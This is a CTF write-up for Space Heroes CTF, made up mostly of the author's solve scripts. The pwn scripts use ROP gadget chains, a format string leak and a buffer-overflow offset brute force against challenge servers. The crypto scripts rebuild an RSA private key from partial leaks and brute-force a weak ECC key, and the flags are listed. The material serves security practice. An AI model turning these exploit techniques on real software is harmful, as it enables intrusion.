

# Space Heroes CTF

This was a very cool CTF with quite a few enjoyable challenges. The effort that the organisers put into making this CTF was clearly visible and it was great overall. [We](https://ctftime.org/team/166645) ended up at the 33rd rank.




This isn't much of a writeup. I'm just posting my scripts for to maintain an archive for myself to refer back to for the pwn and crypto challenges that I found interesting.


## pwn

### Vader

> Submit flag from /flag.txt from 0.cloud.chals.io:20712

ret2win style challenge with 5 `char*` arguments required. Buffer overflow and pass arguments by overwriting registers with address of strings.

```python
from pwn import *

def start(argv = [], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript = gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
b *vader+32
continue
'''.format(**locals())

exe = './vader'
elf = context.binary = ELF(exe, checksec=False)
rop = ROP(elf)
context.log_level = 'info'

io = start()

pop_rdi_ret = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_pop_r15_ret = rop.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]
pop_rdx_ret = rop.find_gadget(['pop rdx', 'ret'])[0]
pop_rcx_pop_rdx_ret = rop.find_gadget(['pop rcx', 'pop rdx', 'ret'])[0]
pop_r8_ret = rop.find_gadget(['pop r8', 'ret'])[0]

print(io.recv().decode())

payload = flat([
    asm('nop') * 40,
    pop_rdi_ret,
    0x402ec9,
    pop_rsi_pop_r15_ret,
    0x402ece,
    asm('nop') * 8,
    pop_rcx_pop_rdx_ret,
    0x402ed6,
    0x402ed3,
    pop_r8_ret,
    0x402eda,
    elf.symbols['vader']
])

print(payload)
io.sendline(payload)

io.interactive()
```

**Flag:** `shctf{th3r3-1s-n0-try}`


### Guardians of the Galaxy

> Ronan the Accuser has the Power Stone. Can Starlord find a successful distraction format? (please note that you should only contact the admin if you recieve the error while using the command below)
>
> nc 0.cloud.chals.io 12690

Simple format string leak.

```python
from pwn import *

con = remote('0.cloud.chals.io', 12690)

print(con.recv())
con.sendline(b'%6$s')
print(con.recv())

con.interactive()
```

**Flag:** `shctf{im_distracting_you}`


### Warmup to the Darkside

> Once you start down the dark path, forever will it dominate your destiny. (And yes, the binary isn't included)
>
> nc 0.cloud.chals.io 30096

We aren't provided a binary so we need to try and detect the vulnerability by guessing. As it was one of the easier challenges, you could try buffer overflow with different offsets and figure out that you can jump to the required function from the leaked address.

```python
from pwn import *

def start(argv = [], *a, **kw):
    return remote('0.cloud.chals.io', 30096, *a, **kw)

gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

context.log_level = 'info'

offset = 0

while True:
    print(offset)

    io = start()

    print(io.recvuntil(b'at: ').decode())
    address = int(io.recvline().decode().strip(), 16)
    print('address:', address)
    print(io.recv().decode())

    payload = flat([
        b'A' * offset,
        p64(address)
    ])

    io.sendline(payload)
    
    try:
        print(io.recv().decode())
    except EOFError:
        pass
    io.close()

    offset += 1
```

**Flag:** `shctf{I_will_remov3_th3s3_restraints_and_leave_the_c3ll}`


### SATisfied

> Welcome to our SATellite Terminal
>
> nc 0.cloud.chals.io 34720

ret2win style challenge that requires to satisfy constraints of in a simple function that takes in two arguments and performs some operation on them to check if the result is `31337`.

```python
from pwn import *

def start(argv = [], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript = gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

exe = './satisfy'
elf = context.binary = ELF(exe, checksec=False)
rop = ROP(elf)
context.log_level = 'info'

io = start()

pop_rdi_ret = rop.find_gadget(['pop rdi', 'ret'])[0]
print('pop: ', pop_rdi_ret)

print(io.recvuntil(b'token ').decode())
token = int(io.recvline().decode().strip())
print('token:', token)

payload = flat([
    asm('nop') * 16,
    0,
    token ^ 31337,
    b'aaaabaaa',
    elf.symbols['print_flag']
])

print(payload)
io.sendline(payload)

io.interactive()
```

**Flag:** `shctf{Whos-Th3-k1ng-of-Ur-Sat3ll1te-Castl3}`


## crypto

### Information Paradox

> Hey Dr. Cooper!
>
> A black hole just swallowed up 63% of Stephen Hawking's private key. Is the information lost?
>
> Please find a way to get it back and extract the flag from Hawking's machine.
>
> Username: hawking / Server: 0.cloud.chals.io:19149
>
> `ssh hawking@0.cloud.chals.io -p 19149`

Copied challenge from https://blog.cryptohack.org/twitter-secrets

```python
import base64
from Crypto.Util.number import *
from Crypto.PublicKey import RSA

s1 = """
MIIJKgIBAAKCAgEAyiLaBE3WT/Tmu3oKID++lbIhEENZD2+RfHutw5S6odTw10LY
uHJLGAs2hjFlg31InNrzWjA8mK11aKTsWtG6OdOU+Nin7vUs918eca2aIzoTjnL8
T5ohkzHvzYOn1BRZ6IIeTfgmAN6l3HsiMxH4ADVPpXxoCtJJA18qhCBGv+KcDos7
SqL/EGg7USmzxSEGDFE8vFuJYZZEZygC3y4XhDerwtUrWDJbEOKp2VyeXaP2y/jk
Am3rG5gpEd4HWIhsCrNl7Zkj9UCj/BX/DgbhEYkSTPKDlZ6ZXIPokD71Fsuol/Yb
QsLTBTqoo7fqS9PbWBDOMEMgfRjsOYVs2r37A1hsHw8dsz6K1vogs+zOw/Li+jhZ
""".strip()

s2 = """
GDYGPNllyOAIOZUCggEBANNvIJO9Roh+p3+E05/Lt4KtR7GxO8oIrslq/j3dZhdp
MbW1EomJv45grjC5hdk7e4k2vZKWnQsA0S1hKHwoklNIsbFEfzVBtLazVEnPF1/C
DFuCoP1HpZ9gKnPhr0YkaInPyVDax8b41GdHl/D9gUh0xXr8k2UlV10Kt5cN9IrV
Irb1CmW0IZyJKEmQRjIpQ/0aCn7Ygw+8SeluVGihwO7BD4GvjqiOeI/uDosELldu
jATEKZiWtUeBXcBPfIDWNQ0kAB4I1SFR4gkLH0B3bQgmGG/7ZkMeAOoeOh2Rn30s
GCbF9KPcxsaX0PROhlc5wgVs7ppcSjp9s6MjPN4qdH0CggEAKGj7TG24BYnr6r9J
nqDQPJ1sv4TckYiyHPeN752qw3grLAO0pQQYATe9W/d4yI+0jCZ8m3OXYAbJSkkO
9bwHxsFFmpmhXPAo1EmJwSD6x5rIV2z+kUhROLe7qBvCbesDxj47Hb4p2jOP0yHP
RS2BcA1gJ18O56ge1xOqVW/IYrHKaG1MN4/FjeailMu7FvAdcAF6nCQD5rIyNI1/
A5KO+uRxQwtUA5eahx21XIQm/S31VlMGzM4aeW+huyeAAG8q0uB72hSus9GC0PUK
8K/r06EeQ2fYeltYEhRzP7lrHyAUTO4xiopGPFlqXbD/3olItMDI0tfj+X+cKnUg
7sTM5QKCAQEAv4GIIEjv+fG+BOJqS/JY5SPOLEQ7w2LZ7dXbMm22ar39KHg5shny
"""

s1 = ''.join(s1.splitlines())
s2 = ''.join(s2.splitlines())

i1 = bytes_to_long(base64.b64decode(s1))
i2 = bytes_to_long(base64.b64decode(s2))

# print(hex(i1))
# print(hex(i2))

n_upper_bits = 0xca22da044dd64ff4e6bb7a0a203fbe95b2211043590f6f917c7badc394baa1d4f0d742d8b8724b180b36863165837d489cdaf35a303c98ad7568a4ec5ad1ba39d394f8d8a7eef52cf75f1e71ad9a233a138e72fc4f9a219331efcd83a7d41459e8821e4df82600dea5dc7b223311f800354fa57c680ad249035f2a842046bfe29c0e8b3b4aa2ff10683b5129b3c521060c513cbc5b89619644672802df2e178437abc2d52b58325b10e2a9d95c9e5da3f6cbf8e4026deb1b982911de0758886c0ab365ed9923f540a3fc15ff0e06e11189124cf283959e995c83e8903ef516cba897f61b42c2d3053aa8a3b7ea4bd3db5810ce3043207d18ec39856cdabdfb03586c1f0f1db33e8ad6fa20b3eccec3f2e2fa3859
p_lower_bits = 0x1836063cd965c8e0083995
q = 0xd36f2093bd46887ea77f84d39fcbb782ad47b1b13bca08aec96afe3ddd66176931b5b5128989bf8e60ae30b985d93b7b8936bd92969d0b00d12d61287c28925348b1b1447f3541b4b6b35449cf175fc20c5b82a0fd47a59f602a73e1af46246889cfc950dac7c6f8d4674797f0fd814874c57afc936525575d0ab7970df48ad522b6f50a65b4219c8928499046322943fd1a0a7ed8830fbc49e96e5468a1c0eec10f81af8ea88e788fee0e8b042e576e8c04c4299896b547815dc04f7c80d6350d24001e08d52151e2090b1f40776d0826186ffb66431e00ea1e3a1d919f7d2c1826c5f4a3dcc6c697d0f44e865739c2056cee9a5c4a3a7db3a3233cde2a747d
dp = 0x2868fb4c6db80589ebeabf499ea0d03c9d6cbf84dc9188b21cf78def9daac3782b2c03b4a504180137bd5bf778c88fb48c267c9b73976006c94a490ef5bc07c6c1459a99a15cf028d44989c120fac79ac8576cfe91485138b7bba81bc26deb03c63e3b1dbe29da338fd321cf452d81700d60275f0ee7a81ed713aa556fc862b1ca686d4c378fc58de6a294cbbb16f01d70017a9c2403e6b232348d7f03928efae471430b5403979a871db55c8426fd2df5565306ccce1a796fa1bb2780006f2ad2e07bda14aeb3d182d0f50af0afebd3a11e4367d87a5b581214733fb96b1f20144cee318a8a463c596a5db0ffde8948b4c0c8d2d7e3f97f9c2a7520eec4cce5
dq_upper_bits = 0xbf81882048eff9f1be04e26a4bf258e523ce2c443bc362d9edd5db326db66abdfd287839b219f2
e = 0x10001

e = 65537

# for kp in range(3, e):
#     p_mul = dp * e - 1
#     if p_mul % kp == 0:
#         p = (p_mul // kp) + 1
#         if isPrime(p):
#             print(f"Possible p: {hex(p)}")

p = 0xf4be0303a4c95b574ec5b656ae094b5615166d199f949fba7c564700341a6dcb360feb326262ddb425b959e5309e0b861cb296153fd30a942cf998d5a5d71ba08ad4f6af354455f7724c8eabf627fece87ccd61a1fe9590c654389fb47fb9625edecf6cbe9901b922e7aeab1a53857f2e9b216d5aed2dc989ed98ad36871ce0a02772e37fe948ca934518eec6eafc20694671d65c43ddbaa007da9a39e48984b98aab3aba96323f05b0a5986abfad3aa0a462d66ee4122e25c023e0f434dfad3378e3943d6daa805a54297d52c54cd262289a724ed4aa2c66d5bb47d1e22e262a397ded7d2aadfd10e0bc2aa0a8a5488e26464adaa1836063cd965c8e0083995
N = p * q

phi = (p-1)*(q-1)
d = pow(e,-1,phi)

assert isPrime(p) and isPrime(q) and p*q == N
assert d % (p-1) == dp
assert hex(N).startswith(hex(n_upper_bits))
assert hex(p).endswith(hex(p_lower_bits)[2:])
assert hex(d % (q-1)).startswith(hex(dq_upper_bits))

phi = (p - 1) * (q - 1)
d = pow(e, -1, phi)

key = RSA.construct((N, e, d, p, q))
pem = key.export_key('PEM')
print(pem.decode())
```

```
python3 exploit.py > id_rsa
chmod 600 id_rsa
ssh hawking@0.cloud.chals.io -p 19149 -i id_rsa
```

**Flag:** `shctf{1nf0rm4ti0n_c4nn0t_b3_d3str0y3d}`


### Easy Crypto Challenge

> My slingshotter cousin Maneo just discovered a new cryptography scheme and has been raving about it since. I was trying to tell him the importance of setting a **large, random** private key, but he wouldn't listen. Guess security isn't as important as how many thousands of credits he can win in his next race around the system.
>
> I've recovered a message sent to him detailing the finish line. Can you decrypt the message to find the coordinates so I can beat him there? I'll give you a percentage of the score!
>
> **Enter flag as shctf{x_y}**, where x & y are the coordinates of the decrypted point.

Brute force. ElGamal ECC.

```python
y^2 = x^3 + ax + b
a = 3820149076078175358
b = 1296618846080155687
modulus = 11648516937377897327
G = (4612592634107804164, 6359529245154327104)
PubKey = (9140537108692473465, 10130615023776320406)
k*G = (7657281011886994152, 10408646581210897023)
C = (5414448462522866853, 5822639685215517063)


What's the message?
```

```python
from sage.all import *

a = 3820149076078175358
b = 1296618846080155687
n = 11648516937377897327
G = (4612592634107804164, 6359529245154327104)
PubKey = (9140537108692473465, 10130615023776320406)
k_G = (7657281011886994152, 10408646581210897023)
C = (5414448462522866853, 5822639685215517063)

E = EllipticCurve(GF(n), [0, 0, 0, a, b])
base = E(G)
pub = E(PubKey)

c1 = E(k_G)
c2 = E(C)

X = base

for i in range(1, n):
    if X == pub:
        secret = i
        print("secret:", i)
        break
    else:
        X = X + base
        print(i)

m = c2 - (c1 * secret)

print("x:", m[0])
print("y:", m[1])
```

**Flag:** `shctf{8042846929834025144_11238981380437369357}`